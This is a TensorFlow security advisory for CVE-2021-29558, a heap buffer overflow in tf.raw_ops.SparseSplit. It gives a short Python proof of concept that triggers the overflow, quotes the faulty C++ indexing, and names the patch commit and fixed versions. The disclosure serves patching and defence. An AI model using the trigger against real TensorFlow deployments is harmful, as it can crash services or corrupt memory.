 ## TFSA-2021-046: Heap buffer overflow in `SparseSplit`

### CVE Number
CVE-2021-29558

### Impact
An attacker can cause a heap buffer overflow in `tf.raw_ops.SparseSplit`:

```python
import tensorflow as tf

shape_dims = tf.constant(0, dtype=tf.int64)
indices = tf.ones([1, 1], dtype=tf.int64)
values = tf.ones([1], dtype=tf.int64)
shape = tf.ones([1], dtype=tf.int64)

tf.raw_ops.SparseSplit(
    split_dim=shape_dims, indices=indices, values=values,
    shape=shape, num_split=1)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/699bff5d961f0abfde8fa3f876e6d241681fbef8/tensorflow/core/util/sparse/sparse_tensor.h#L528-L530)
accesses an array element based on a user controlled offset:

```cc
const int dim = input_tensor.indices().matrix<int64>()(i, split_dim);
int slice_index = GetSliceIndex(dim, split_size, residual);
num_values[slice_index]++;
```

This results in overriding values on the heap.

### Patches
We have patched the issue in GitHub commit
[8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31](https://github.com/galeone/tensorflow/commit/8ba6fa29cd8bf9cef9b718dc31c78c73081f5b31).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
